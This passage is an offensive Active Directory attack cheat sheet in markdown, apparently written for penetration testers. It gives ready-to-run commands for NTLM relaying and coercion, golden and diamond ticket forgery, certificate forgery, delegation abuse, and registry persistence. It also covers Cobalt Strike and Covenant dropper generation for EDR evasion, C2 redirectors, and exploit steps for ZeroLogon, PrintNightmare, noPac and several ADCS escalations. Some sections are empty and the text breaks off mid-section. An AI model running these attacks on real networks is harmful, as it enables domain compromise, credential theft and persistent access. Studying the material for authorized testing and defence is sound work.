1. Disable **SMB** and **HTTP** in `/etc/Responder.conf`
2. Fire up responder. **SMB** and **HTTP** protocol now should now show as [OFF]
```
Responder.py -I eth0 -rdvw
```
3. Create a targets.txt file containing targeted ip addresses. `ntlmrelayx.py` will run captured hash to every protocol available on the given ip addresses
```
all://192.168.0.10
all://192.168.0.11
```
4. Run `ntlmrelayx.py`
```
ntlmrelayx.py -tf targets.txt -smb2support -socks
```
5. Authenticate with any available Impacket scripts through `proxychains` and supply no password
```
# PsExec
proxychains Psexec.py contoso/administrator:''@192.168.0.10

# mssqlclient
proxychains mssqlclient.py contoso/sqlsvc:''@192.168.0.15 -windows-auth -debug
```

### Dump Domain Objects
lookupsid.py

### Store SOCKS Sessions
```
ntlmrelayx.py -t 192.168.86.182 -smb2support -socks

python3 PetitPotam.py 192.168.86.193 192.168.86.183
```

### Request User Certificate
```
# certipy
certipy relay -ca ca01.range.net -template 'DomainController'

# impacket
ntlmrelayx.py -t http://ca01.range.net/certsrv/certfnsh.asp -smb2support --adcs --template 'DomainController'

# coerce with 
python3 PetitPotam.py 192.168.86.193 192.168.86.182
```

### Shadow Credentials
```

```

### ESC8
```
```

### Webdav to LDAP(S)
```
```

### NetNTLMv1 to LDAP
```
ntlmrelayx.py -t ldaps://ca01.range.net -smb2support --remove-mic -i

python3 PetitPotam.py 192.168.86.193 192.168.86.182
```

### Relay Notes

* [KrbRelayUP](https://twitter.com/an0n_r0/status/1519344255143141376?s=20&t=nk-MeM42nRevaMPNOvQDoA)
* [RPC2RBCD](https://gist.github.com/gladiatx0r/1ffe59031d42c08603a3bde0ff678feb)
* [lookupsid](https://twitter.com/an0n_r0/status/1506824658838040580?s=20&t=HJ9qD6GkzCvg1p24XZ6A2Q)
* [Kerberos Relay over DNS](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)
* [Flangvik's VOD RPC2RBCD](https://www.youtube.com/watch?v=axPkf_kLpMA)
* [NTLMv1 Downgrade](https://twitter.com/theluemmel/status/1454774400553787394?s=20&t=V55BIRuHPzUSLDOEdVCfEg)
* [NTLMv1 Downgrade Requirements](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ntlm/ntlmv1-downgrade)
* https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay
* https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
* [All Relay attacks covered by @vendetce (pdf)](https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf)
* [All Relay attacks covered by @vendetce (youtube)](https://www.youtube.com/watch?v=b0lLxLJKaRs)
* https://www.youtube.com/watch?v=b0lLxLJKaRs
* https://www.blackhillsinfosec.com/wp-content/uploads/2022/09/Coercions-and-Relays-The-First-Cred-is-the-Deepest.pdf
# Persistence

### Golden Ticket
A golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine
| Attribute   | Value                                  |
| ---         | -----------                            |
| Domain      | legitcorp.local                        |
| Domain SID  | S-1-5-21-1935943001-39345449-285568504 |
| krbtgt hash | 7e8612a348a729bcb2f597a9cbc27c12       |
| Username    | trex                                   |
```
# Mimikatz
kerberos::golden /domain:legitcorp.local /sid:S-1-5-21-1935943001-39345449-285568504 /rc4:7e8612a348a729bcb2f597a9cbc27c12 /user:trex /ptt

# Impacket
ticketer.py -domain legitcorp.local -nthash 7e8612a348a729bcb2f597a9cbc27c12 -dc-ip 192.179.86.170 -domain-sid S-1-5-21-1935943001-39345449-285568504 trex
```

### Diamond Ticket
A diamond ticket is quite different from a [Golden Ticket](#golden-ticket) because golden ticket wouldn't require TGT request since it can be forged offline. Diamond ticket is where we can request a valid user's TGT regardless the level of access on the domain, then the ticket will be modified to allow us to request TGS for a specific service. This is a better technique because normally golden ticket is easier to detect by monitoring for service ticket requests (TGS-REQs) that have no correspokding TGT request (AS-REQ). Detailed steps are as follows:-
| Attribute           | Value                                                            |
| ---                 | -----------                                                      |
| Username & Password | loki:Password123                                                 |
| Domain              | range.net                                                        |
| krbtgt AES-256 Key  | 8161d45ac308add4c553fad55fe70d8ce8c06160eeeb720df8bcbf16575400ee |
| User in PAC         | rangeadm                                                         |
1. Request a diamond key with [Rubeus](https://github.com/GhostPack/Rubeus). It does the following steps:-
```
i. Request normal user TGT
ii. Decrypt the TGT with krbtgt aes key
iii. Modify ticket PAC and insert _rangeadm_ in the PAC
```
```
Rubeus.exe diamond /krbkey:8161d45ac308add4c553fad55fe70d8ce8c06160eeeb720df8bcbf16575400ee /user:loki /password:Password123 /enctype:aes /domain:range.net /dc:dc01.range.net /ticketuser:rangeadm /ticketuserid:1104 /groups:512 /nowrap
```
2. To verify the Diamond ticket (modified TGT), requst a service ticket (TGS)
```
.\Rubeus.exe asktgs /ticket:<tgt> /service:cifs/dc01.range.net /nowrap
```
For detailed explanation, read this article by Semperis [here](https://www.semperis.com/blog/a-diamond-ticket-in-the-ruff/)

### Golden Certificate
The title is basically self explanatory, this attack is pretty much the same as golden certificate where you forge a certificate offline with a compromised private key on a CA server *(Having system access on a CA)*. Therefore, it can be used to forge a certificate and sign it with the private key to be used later on for persistence purposes. A certificate will normally valid up until 1 year duration. 
1. Extract private key from CA
```
SharpDPAPI.exe certificates /machine
```
2. Copy the cert into a .pem file and convert to a usable format (.pfx) to perform [Pass-The-Certificate](#pass-the-certificate) attack. *Note that this will require a user defined password*
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
3. Forge a certificate
```
# certipy
1. convert pfx to a certipy usable cert (no password)
certipy cert -export -pfx cert.pfx -password admin -out final.pfx

2. forge a certificate 
certipy forge -ca-pfx final.pfx -upn rangeadm@range.net -subject 'CN=rangeadm,CN=Users,DC=RANGE,DC=NET'

3. authenticate with the certificate and win!
certipy auth -pfx rangeadm_forged.pfx -dc-ip 192.168.86.183

# pyForgeCert
1. using PEM cert (you can skip step 2 for this one)
python pyForgeCert.py -i cert.pem -o admin.pfx

2. using PFX cert
python pyForgeCert.py -i cert.pfx -o admin.pfx -pfx -p admin

3. Use Pass-The-Certificate and win!
```

**References**
* https://pentestlab.blog/2021/11/15/golden-certificate/
* https://github.com/Ridter/pyForgeCert
* https://github.com/ly4k/Certipy


### msDS-AllowedToDelegateTo
Note that the `msDS-AllowedToDelegateTo` is the user account flag which controls the services to which a user accounts has access to. This means, with enough privileges, it is possible to access any service from a target user.

1. Set the `msDS-AllowedToDelegateTo` attribute of a user _lowpriv_ to give privilege for it to request ticket for _cifs_ service to dc01.
```
# AD Module / RSAT
Set-ADUser -Identity lowpriv -Add @{'msDS-AllowedToDelegateTo'=@('cifs/dc01.legitcorp.local')} -Verbose

# PowerView
Set-DomainObject -Identity lowpriv -Set @{"msds-allowedtodelegateto"="cifs/dc01.legitcorp.local"}
Set-DomainObject -SamAccountName lowpriv -Xor @{"useraccountcontrol"="16777216"}

# Linux
setCD.py legitcorp.local/Administrator:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -target 'lowpriv' -spn 'cifs/dc01.legitcorp.local'
```
2. Request the service ticket for _cifs_ service with impacket [getST.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/getST.py) and impersonate to administrator.
```
# Rubeus
Rubeus.exe hash /user:lowpriv /password:'P@$$w0rd!xyz' /domain:legitcorp.local
Rubeus.exe s4u /user:lowpriv /rc4:098D747A5D113F6AE9D6A599EB8E539B /domain:legitcorp.local /impersonateuser:administrator /msdsspn:cifs/dc01.legitcorp.local /ptt

# Impacket
getST.py -spn cifs/dc01.legitcorp.local legitcorp.local/lowpriv:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -impersonate 'administrator'
export KRB5CCNAME='administrator.ccache'
```
3. Getting an interactive shell with smbexec.py. Note that there are other several ways to achieve this and executing smbexec.py or psexec.py might cause a noisy traffic on the environment.
```
# Sysinternal
PsExec64.exe -accepteula \\dc01.legitcorp.local cmd

# Impacket
smbexec.py legitcorp.local/Administrator@dc01.legitcorp.local -dc-ip 192.168.86.170 -no-pass -k
```

### Registry Keys
### Execute on startup
There are several registry keys can be added to execute binary on startup based on your need and current user context. 
```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run 
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```
1. Add a new value to one of the KeyName above 
```
reg.exe add HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RunMe /t REG_SZ /d "C:\Users\Public\mybinary.exe"
```

### krbtgt Constrained Delegation
1. Add a new computer account with [addcomputer.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/addcomputer.py). This steps would require a domain account with a privilege to create computer account. (Domain objects are allowed to create up to 10 computer accounts in a domain as per default configuration). 
```
addcomputer.py -computer-name FakeComputer -computer-pass 'Passw0rd' -dc-ip 192.168.86.170 legitcorp.local/lowpriv:'P@$$w0rd!xyz'
```
2. Set the _msDS-AllowedToDelegateTo_ attribute to `krbtgt/legitcorp`. [setCD.py](https://gist.githubusercontent.com/snovvcrash/c8f8fa7721c40f4cca0c46c196066a41/raw/3ddd82ab44048d0fe8530ae2da87199cdc70779f/setCD.py) is a script by [@snovvcrash](https://twitter.com/snovvcrash)
```
setCD.py legitcorp.local/Administrator:'P@$$w0rd!xyz' -dc-ip 192.168.86.170 -target 'FakeComputer$' -spn krbtgt/legitcorp
```
3. Request service ticket for the created computer by impersonating domain controller computer account (s4u delegation).
```
# request service ticket
getST.py -spn krbtgt/legitcorp legitcorp.local/FakeComputer\$:'Passw0rd' -dc-ip 192.168.86.170 -impersonate 'DC01$'

# export ticket into environment variable
export KRB5CCNAME='DC01$.ccache'
```
4. Perform DCSync on the domain controller
```
secretsdump.py legitcorp.local/DC01\$@dc01.legitcorp.local -dc-ip 192.168.86.170 -just-dc -k -no-pass
```
You can read more from this great [article](https://skyblue.team/posts/delegate-krbtgt/) from [citronneur](https://twitter.com/citronneur). _CAVEAT: This is not really an OPSEC safe choice to perform persistence. So please be extra careful and cautious when executing the above steps_

# Remote Authentication Between Computers
### PS Remoting
**PS Remoting** stands for PowerShell remoting, this will enable users to authenticate between powershell session in remote computers by using `*-PSSession`.
```
# Create New PSRemoting Session (with current user privilege/no PSCredential needed)
$sess = New-PSSession -ComputerName dc01

# Create New PS Remoting Session (with plain-text password/PSCredential needed)
$username = 'contoso\studentadmin'
$password = ConvertTo-SecureString -AsPlainText -Force 'P@$$w0rd!'
$cred = New-Object System.Management.Automation.PSCredential($username,$password)
$sess = New-PSSession -ComputerName dc01 -Credential $cred

# Get Interactive Remote Session
Enter-PSSession -ComputerName dc01
Enter-PSSession -ComputerName dc01 -Credential $cred
Enter-PSSession -Session $sess
```

### Winrs
Winrs requires a plain-text password in order to authenticate to other computers
```
winrs -u:dc01.contoso.local -u:contoso\administrator -p:P@$$w0rd! "hostname"
```

### SMB 
**PsExec**
This requires you to download MS Signed Binary (`PsExec.exe`) in PsTools bundle. It can be downloaded [here](https://download.sysinternals.com/files/PSTools.zip).
```
# windows
PsExec.exe -accepteula \\dc01.contoso.local powershell

# linux
psexec.py legitcorp.local/Administrator@192.168.0.110
```
**SMBExec**
```
smbexec.py legitcorp.local/Administrator@192.168.0.110
```

### WMI
```
wmiexec.py legitcorp.local/Administrator@192.168.0.110
```

### DCOM
ShellBrowserWindow object can be leverage for remote code execution over DCOM. Please note that this requires authentication (e.g. runas netonly)
```
PS> $com = [Type]::GetTypeFromCLSID('C08AFD90-F2A1-11D1-8455-00A0C91F3880',"192.168.112.200")
PS> $obj = [System.Activator]::CreateInstance($com)
PS> $obj.Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

### Reference
* https://dolosgroup.io/blog/remote-access-cheat-sheet

# Defense Evasion
## Generate VBScript dropper (APC process injection)
Make sure to download [GadgetToJScript](https://github.com/med0x2e/GadgetToJScript.git) and [Donut](https://github.com/TheWover/donut.git)._Note:This method probably won't 100% bypass EDR/AV._
### Cobalt Strike Beacon
For cobalt strike, this aggressor script called [**ShellCode Generator**](https://github.com/RCStep/CSSG) is very useful to generate shellcode with custom formatting. This cna also helps to obfuscate with XOR or AES method.

1. Generate shellcode and this is my default configuration


2. Use [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script and paste those hex bytes in `shellcode` variable


3. Compile with **GadgetToJScript**

```powershell
GadgetToJScript.exe -b -w vbs -o beacon -c .\real.cs
```

4. Execute with `wscript.exe beacon.cs`

### Covenant Grunt
For covenant, since its already has its built in .NET generator. You can use donut to further obfuscate the assembly/

1. Generate **binary** from Covenant
2. Obfuscate and convert to byte array with **Donut**. It will then generate into .bin file.
```powershell
donut.exe -f .\Grunt.exe
```
3. Convert .bin file to base64 and save to clipboard
```powershell
# save filepath to a variable
$filename='<file-path-to>\payload.bin'
# Convert file to base64 and save to clipboard
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename) | Clip
```
4. Download [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script, save as payload.cs (or anythin bcs no one cares) and replace the `b64` variable with our current clipboard
5. Convert payload.cs to vbs with **GadgetToJScript**
```powershell
.\GadgetToJScript.exe -b -w vbs -o realtest -c .\real.cs
```
6. Execute on remote computer
```powershell
wscript.exe .\realtest.vbs
```

## C2 Redirector
Instead of directly interacting victims and C2 server. This is actually a neat trick to just use a redirector to be a middle man and route all the C2 traffic to your C2 server (in your local network)

### SSH Remote Tunnel
_Caveat: This method is not 100% reliable since it accepts all traffic coming through a single forwarded port. This will create more rubbish traffic comming into teamserver's IP_
1. Uncheck this line in `/etc/ssh/sshd_config` and restart ssh server
```
GatewayPorts clientspecified
```
2. Create reverse tunnel to the redirector. Be careful! this will open your local port (443) to to your VPS. _Note that on the left side is your redirector port and right side is your local C2 server port_
```
ssh -R 0.0.0.0:443:127.0.0.1:443 root@redirectorIP
```

### Apache mod_rewrite
This would require an Apache2 server setup on your redirector and C2 server also needed to have a public IP address.
1. Setup an Apache2 server on your redirector.
2. Modify your apache configuration file in `/etc/apache2/sites-enabled/000-default.conf`
```
ProxyRequests Off

# Target --> VPS --> C2
ProxyPass /index.html http//c2IPADRESS/index.html

# C2 --> VPS --> Target
ProxyPassReverse /index.html http//c2IPADRESS/index.html
```

# Low Hanging Fruits
### ZeroLogon
Set the computer account's password to null allowing attackers to perform [DCSync](#dcsync) attack with null authentication
1. Run exploit script [here](https://github.com/risksense/zerologon.git)
```
python3 set_empty_pw.py DC01 10.10.10.10
```

2. Perform DCSync with null auth
```bash
python3 secretsdump.py -just-dc -no-pass testlab/DC01\$@10.10.10.10
```

### HiveNightmare
1. Check if system is vulnerable with the following commands
```
# Check if BUILTIN/Users has read permission
icacls C:\Windows\System32\config\SAM

# Check if shadow copy is available
vssadmin list shadows
```

2. Dump SYSTEM Hive with mimikatz
```
# mimikatz (On remote computer)
mimikatz# lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# secretsdump.py (Local)
secretsdump.py -sam SAM-file -system SYSTEM-file LOCAL
```

Note that the above methods is the manual way. This has been implemented in a automated C# code called [HiveNightmare](https://github.com/GossiTheDog/HiveNightmare). Once you retrieve admin's ntlm, you can do lots of stuff including [changing password](https://twitter.com/gentilkiwi/status/1417467063883476992) or [Pass The Hash](#overpass-the-hash-opth)/PsExec/Evil-Winrm...

# NTLMv1 Shenanigans
### NTLM Downgrade
For below steps, it requires a specific challenge needed to be configured in `/etc/responder/Responder.conf`. Modify the challenge part to _1122334455667788_ in order to match with [crack.sh](https://crach.sh) rainbow tables.

1. Run responder with `--lm` flag. _(Note that in order to get a crackable hash for NTLMv1-SSP hash --disable-ess flag is required. Refer this tweet by [@HackAndDo](https://twitter.com/HackAndDo/status/1420135330171207685?s=20&t=0_1oqdiizE_Hbs5XKByHEw))_
```
responder -I eth0 --lm [--disable-ess]
```
2. Coerce authentication with your own methods (i.e. PetitPotam, DFSCoerce, PrinterBug).
```
python3 PetitPotam.py 192.168.86.193 192.168.86.182
```
3. A hash should appear on responder event logs. Convert the hash to a crack.sh cracking format with this [tool](https://github.com/evilmog/ntlmv1-multi). Refer steps explained in http://crack.sh/netntlm/
```
python3 ntlmv1.py --ntlmv1 'DC01$::RANGE:B8154B285809096F4AA9D8285846C401CDE8D2F1FBE4AC91:B8154B285809096F4AA9D8285846C401CDE8D2F1FBE4AC91:1122334455667788'
```
4. Submit hash to https://crack.sh/get-cracking and wait for the result (should be retrieved via email within seconds)

### Relay SMB to LDAP(S)
This is only possible if **NTLMv1 is enabled** but you will need to specify `--remove-mic` flag when firing up _ntlmrelayx.py_ to set `NTLMSSP_NEGOTIATE_SIGN` flag to false. Read details explanation [here](https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/)
> Relaying from SMB to the LDAP service is quite straightforward and simply requires an attacker to specify the –remove-mic flag when performing a relaying attack. Originally, this flag was added to support exploitation of the “Drop the MIC” vulnerability. However, it also has the benefit of setting the NTLMSSP_NEGOTIATE_SIGN flag to false. This allows relaying from SMB to the LDAP service to work since NTLMv1 doesn’t include a message integrity code (MIC).

1. First step is optional and 
```
# open socks session with ntlmrelayx.py to store SMB session on ws01 as dc01
ntlmrelayx.py -t ws01.range.net -smb2support -socks

# coerce authentication with PetitPotam.py
python3 PetitPotam.py 192.168.86.193(attacker) dc01.range.net
```
2. Now you should have socks SMB session on ws01$ as dc01$. Execute ntlmrelayx.py `stopservers` command to stop other listening ports as we no longer need them.
3. Fire up `ntlmrelayx.py` with `--remove-mic` flag targeting ldap service on dc01. _Note that the -i flag is to open an interactive ldap session_
```
ntlmrelayx.py -t ldap://dc01.range.net -smb2support --remove-mic -i
```
4. Use printerbug.py script to coerce spooler service as WS01$. _You can either use either a plain-text password, kerberos auth or socks session opened earlier in step1_
```
# password auth
python3 printerbug.py range.net/rangeadm:Password123@ws01.range.net "192.168.86.193" -no-ping -no-pass

# ntlmrelayx.py socks session
proxychains python3 printerbug.py RANGE/DC01\$@ws01.range.net "192.168.86.193" -no-ping -no-pass
```
5. Now ntlmrelayx.py should be showing a successful relaying attempt to ldap service like the following
```
[[..snip..]]
[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.86.184, attacking target ldap://dc01.range.net
[*] Authenticating against ldap://dc01.range.net as RANGE/WS01$ SUCCEED
[*] Started interactive Ldap shell via TCP on 127.0.0.1:11000
[[..snip..]]
```
6. You can interact with the LDAP interactive shell by using `nc` or `telnet` to port 11000 (default)
7. In this scenario, we can abuse so many ldap feature. One of the infamous POC is abusing RBCD. Lets first create a controlled computer account using `addcomputer.py` impacket script.
```
addcomputer.py range.net/lowpriv:Password1234 -computer-name evilpc -computer-pass Password1234
```
8. Use the LDAP shell _set_rbcd_  to set WS01$ `msds-allowedtoactonbehalfofotheridentity` to our controlled computer evilpc$
9. Make s4u request to get a service ticket as the impersonated account
```
getST.py range.net/lowpc2\$:Password123 -spn http/ws01.range.net -impersonate Administrator -dc-ip 192.168.86.182
```
10. Now try wmiexec into WS01$ and win
```
wmiexec.py range.net/Administrator@ws01.range.net -no-pass -k
```

### References
* https://www.praetorian.com/blog/ntlmv1-vs-ntlmv2/
- https://twitter.com/an0n_r0/status/1571598587439775745?s=20&t=q3-YgJ7LcZATARKd0JnlKQ

# PrintNightmare
Abusing printer spooler service (CVE-2021-34527) to load malicious DLL and execute as SYSTEM. Available POCs can be found here
| Link          | Authors         |Language|
| ------------- | ------------- | ----- |
| https://github.com/cube0x0/CVE-2021-1675      | [@cube0x0](https://twitter.com/cube0x0) | python, c# |
| https://github.com/calebstewart/CVE-2021-1675      | [@calebsteward](https://twitter.com/calebjstewart)      |  PowerShell |

1. Generate `msfvenom` payload
```
msfvenom -p windows/x64/exec CMD="net.exe localgroup administrators testuser /add" -f dll -o test.dll
```

2. Run these commands _(either one)_
```
# Powershell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

# SharpPrintNightMare
SharpPrintNightmare.exe C:\Windows\Tasks\execme.dll

# Python Impacket Implementation
## setup smbserver
smbserver.py smbshare `pwd` -smb2support
python3 CVE-2021-1675.py testlab/testuser:'P@$$w0rd!'@10.10.10.10 '\\10.10.10.10\smbshare\encme.dll' [-hashes :NTLM]
```

# noPac
This exploit will require a valid domain user regardless the level of privilege given as long as it can create a computer account on the domain. Here are the steps.

1. Create a fake computer with [Powermad.ps1](https://github.com/Kevin-Robertson/Powermad) script.
```
New-MachineAccount -MachineAccount "FakeComputer" -Password $password -Domain legitcorp.local -DomainController DC01.legitcorp.local -Verbose
```

2. Clear the fake computer's ServicePrincipalName (SPN) value
```
Set-DomainObject "CN=FakeComputer,CN=Computers,DC=legitcorp,DC=local" -Clear "serviceprincipalname" -Verbose -Domain legitcorp.local
```

3. Rename the fake computer samaccountname to domain controller name (FakeComputer$ -> DC01)
```
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "DC01" -Attribute samaccountname -Domain legitcorp.local -Verbose
```

4. Request a TGT of the domain controller
```
Rubeus.exe asktgt /user:DC01 /password:Password2 /domain:legitcorp.local /dc:DC01.legitcorp.local /nowrap
```

5. Rename the fake computer name to its original name (DC01 -> FakeComputer$)
```
Set-MachineAccountAttribute -MachineAccount "FakeComputer" -Value "FakeComputer" -Attribute samaccountname -Verbose -Domain legitcorp.local
```

6. Request TGS on behalf of the domain controller ticket we obtained previously.
```
Rubeus.exe s4u /impersonateuser:DC01$ /nowrap /dc:DC01.legitcorp.local /self /altservice:ldap/DC01.legitcorp.local /ptt /ticket:<base64-blob-ticket>
```

7. Perform cleanup (OPSEC Friendly)
```
Remove-MachineAccount -Domain legitcorp.local -MachineAccount FakeComputer
```

### Automated Exploit
There are a few automated scripts and tools out there to perform this exploit. This are some of the tools that i use previously on an engagement.
* Python (https://github.com/Ridter/noPac.git)
```
python3.exe .\noPac.py domain.local/lowpriv:Passw0rd -dc-ip 10.0.10.10 -dc-host DC01 --impersonate administrator -dump
```

* CSharp (https://github.com/cube0x0/noPac.git)
```
noPac.exe -domain domain.local -user low_priv -pass 'P@ssw0rd' /dc dc01.domain.local /mAccount FakeComputer /service [ldap,cifs,http] /ptt
```

Note: _Always perform cleanup if you are exploiting this against the corporate environment. You can use the following command to verify and remove a computer account_
```
# verify computer account with wmic
wmic /NAMESPACE:\\root\directory\ldap PATH ds_computer GET ds_samaccountname

# remove a computer account
net computer \\FakeComputer /delete
```


### Reference 
https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing

# ADCS

### PKI Abuse
It is recommended to use below commands with `-k` option and .cacche file. Please refer [Request TGT](#request-tgt) section

1. Enumerate CA(s) on the domain
```
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --class ca
```
2. Enumerate for vulnerable templates
```
# Windows
Certify.exe find /clientauth

# Linux
python3 certi.py list '<domain>/<username>' -k -n --dc-ip <dc-ip> --vuln --enable
```
3. Request cert from CA
```
# Windows
Certify.exe request /ca:dc.legitcorp.local\CA01 /template:vuln-template

# Linux
python3 certi.py req '<domain>/<username>@<ca-server>' <ca-service-name> -k -n --dc-ip <dc-ip> --template <vuln-template> --alt-name <target-domain-account>
```
4. Retrieve TGT by using the certificate
```
# Windows
Rubeus.exe asktgt /user:lowpriv /certificate:cert.pfc /password:P@$$w0rd

# Linux
python3 gettgtpkinit.py <domain>/<username> -cert-pfx <pfx-certificate-file> -pfx-pass <certificate-password> -dc-ip 192.168.86.183 admin_tgt.ccache   
```
5. Retrieve NTLM hash (optional)
At this point, you can either use environment variable `KRB5CCNAME` to be used with ccache file or you can either get ntlm hash from the ticket with the following Commands
```
python3 getnthash.py -key <AS-REP-encryption-key> -dc-ip <dc-ip> <domain>/<username> output_tgt.ccache
```

For detailed example, you may refer to this awesome [gist](!https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250) by [@Flangvik](!https://twitter.com/Flangvik)

### ESC1

What makes a template vulnerable to ESC1 is when the following requirements are met:
|Attributes |Value
--- | --- |
|`msPKI-Certificate-Name-Flag`|`(0x1) ENROLLEE_SUPPLIES_SUBJECT`|
|`pKIExtendedKeyUsage`|Client Authentication|
|`msPKI-Certificate-Application-Policy`| Client Authentication|
|Enrollment Rights|Domain Users|

_Note that you would require one valid user to enroll the certificate_

1. List for available vulnerable templates using [certi](https://github.com/eloypgz/certi)
```
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --vuln --enabled

# output should normally be like this
Name: VulnUser
Schema Version: 2
Enroll Services: range-CA01-CA
Vulnerabilities: ESC1 - SAN Impersonation
msPKI-Certificate-Name-Flag: (0x1) ENROLLEE_SUPPLIES_SUBJECT
msPKI-Enrollment-Flag: (0x9) INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
msPKI-RA-Signature: 0
pKIExtendedKeyUsage: Client Authentication, Secure Email, Encrypting File System
msPKI-Certificate-Application-Policy: Client Authentication, Secure Email, Encrypting File System
SD Owner: S-1-5-21-3556610642-5733621-2059236447-500 range\Administrator
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-512 range\Domain Admins
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
      S-1-5-21-3556610642-5733621-2059236447-519 range\Enterprise Admins
[[..snip..]]
```

2. If requirements are met, then request the certificate using certi by specifying alternate name that include a high privileged user (ie Domain Admins)
```
python3 certi.py req range.net/peter:'Welcome1234'@CA01.range.net range-CA01-CA -k -n --template 'VulnUser' --alt-name 'rangeadm'
```

3. A pfx certificate should now be retrieved. Run the following command to request tgt by using the ceritifcate by using [gettgtpkinit.py](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py)
```
python3 gettgtpkinit.py range.net/rangeadm -cert-pfx /opt/certi/rangeadm@range.net.pfx -pfx-pass 'admin' -dc-ip 10.8.0.2 /tmp/rangeadm.ccache
```

4. Now a ccache file should now be retrieved. Export the ccache file into `KRB5CCNAME` environment variable and [DCSync](#dcsync)
```
secretsdump.py range.net/rangeadm@10.8.0.2 -k -no-pass -just-dc -just-dc-user 'range\krbtgt'
```
_Note that you could also recover ntlm has with getnthash.py script_

### ESC4
This attack is possible when a low-privileged user has _Write Property_ or any other rights to modify template configuration to allow [ESC1](#esc1) attack to work. [modifyCertTemplate.py](https://github.com/fortalice/modifyCertTemplate) will be used in the following steps

1. Verify the vulnerable template with [certi]() 
```
python3 certi.py list range.net/peter:'Welcome1234' --dc-ip 10.8.0.2 --enabled

# vulnerable template
[[..snip..]]
Permissions
  Enrollment Permissions
    Enrollment Rights
      S-1-5-21-3556610642-5733621-2059236447-513 range\Domain Users
[[..snip..]]
```

2. Once vulnerable template has been verified. Modify the necessary requirements to proceed with [ESC1](#esc1) attack path
```
# msPKI-Certificate-Name-Flag = (0x1) ENROLLEE_SUPPLIES_SUBJECT
python3 modifyCertTemplate.py range.net/peter:'Welcome1234' -template ESC4 -value 1 -property msPKI-Certificate-Name-Flag -dc-ip 10.8.0.2
```

3. Now it should be vulnerable to [ESC1](#esc1)

### ESC8

This requires NTLMv2 relaying from target identity to the /certsrc/certfnsh.asp endpoint to request a certificate. Below are the steps to reproduce

1. Fire up `ntlmrelayx.py` to listen for incoming hash and relay it to target url
```
ntlmrelayx.py -t http://192.168.86.183/certsrv/certfnsh.asp -smb2support --adcs --template 'KerberosAuthentication'
```
2. Coerce authentication using [PetitPotam](https://github.com/topotam/PetitPotam). _Note that patched system doesnt allow unauthenticated coerce, then it would require a credential_
```
# unpatched DC
python3 PetitPotam.py 192.168.86.165 192.168.86.182

# patched DC
python3 PetitPotam.py -u 'peter' -p 'Welcome1234' -d 'range.net' 192.168.86.165 192.168.86.182
```
3. A base64 encoded ticket should be retrieved by now and save it in a file. Use gettgtpkinit.py to convert the pfx certificate to ccache format 
```
python3 gettgtpkinit.py range.net/dc01\$ -pfx-base64 $(cat /tmp/b64-cert.b64) -dc-ip 192.168.86.182 /tmp/out.ccache
```
4. Use getnthash.py to retrieve ntlm hash
```
python3 /opt/AD/PKINITtools/getnthash.py range.net/dc01\$ -key c5deec1a9ef6cbaf6da31cb46c1398fdc47c37630375896ee412f3462332503b -dc-ip 192.168.86.182
```
5. NTLM hash should now be retrieved and win!

### Certifried

**User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a [DCSync](#dcsync) attack.

1. Add a fake computer account with [PowerMad](https://github.com/Kevin-Robertson/Powermad) or [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
```
# Powermad
New-MachineAccount -MachineAccount 'FakeComputer' -Password (ConvertTo-SecureString -AsPlainText -Force 'Password123') -Domain domain.local -DomainController dc.domain.local -Verbose

# impacket
addcomputer.py domain.local/john:'Passw0rd1' -method LDAPS -computer-name 'JOHNPC' -computer-pass 'Password123'
```

